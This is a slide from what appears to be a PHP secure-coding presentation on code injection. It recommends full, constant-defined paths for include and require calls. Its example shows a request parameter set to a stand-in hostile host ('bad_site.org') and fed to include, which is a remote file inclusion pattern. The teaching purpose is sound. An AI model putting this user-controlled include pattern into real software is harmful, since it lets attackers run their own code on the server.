

# Code Injection Example
Avoid using dynamic or relative paths/files in your code.
Although somewhat less convenient; always use full paths, defined by constants, which will prevent attacks like these:

There are some other ways to secure include or require calls...

<?php
// dynamic path
$_GET['path'] = ‘http://bad_site.org’;
include "{$_GET['path']}/header.inc";
?>